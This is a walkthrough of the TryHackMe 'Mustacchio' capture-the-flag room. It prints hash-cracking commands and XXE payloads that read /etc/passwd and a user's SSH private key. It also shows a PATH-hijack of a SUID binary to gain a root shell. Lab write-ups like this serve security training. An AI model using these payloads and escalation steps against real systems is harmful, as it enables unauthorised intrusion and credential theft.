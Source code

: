 
https://tryhackme.com/r/room/mustacchio

---
![[Screenshot_2024-06-30_08-58-23.png]]

Enumation showed me a `users.bak` in `/custom/js`

I simply `cat` the `users.bak` file and I get:
```text
��0]admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
```

I suppose if for an `admin` user with the `1868e36a6d2b17d4c2745f1659433a54d4bc5f4b` hashed password

Indeed it was `sha-1` hashing

```shell
hashcat -a 0 -m 100 -O hash /usr/share/wordlists/rockyou.txt
```

It gave me the following credentials: `admin:bulldog19` for the login page on the port `8765`

I landed on the admin panel and I discovered `dontforget.bak` on the source page. The `.bak` display the `XML` template to submit a comment
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<comment>  
 <name>Name</name>  
 <author>Author</author>  
 <com>Comment</com>  
</comment>
```

With this, I can try to inject a payload to display `/etc/passwd`

```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE foo [<!ENTITY passwd SYSTEM "/etc/passwd"> ]>
<comment>  
 <name>&passwd;</name>  
</comment>
```

It worked !

Another comment in the source page of `home.php` tells me
```text
<!-- Barry, you can now SSH in using your key!-->
```

So I am going to try to get his `id_rsa.pub` key with the following payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/home/barry/.ssh/id_rsa"> ]>
<comment>  
 <name>&payload;</name>  
</comment>
```

I asked my assistant GPT4o to correctly format the private key, then I used john to setup the hashfile
```shell
ssh2john id_rsa > hash
```
Then I cracked the hash
```shell
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
 And the password is `urieljames`

So the creds are `barry:urieljames`

And here I am as `barry`

The other user `joe` has a root SUID on his home `live_log`

When you `strings` the binary, it shows the following mistake:
![[Screenshot_2024-07-03_16-58-00.png]]
The `tail` haven't an absolute path so I can change the default path order by adding my `tail`:
```shell
export PATH=/home/barry:$PATH
```
And I create the `tail` in `/home/barry`:
```shell
/bin/bash
```

So when I'll start `live_log` with the SUID root, it will spawn a root shell

And here I am root !
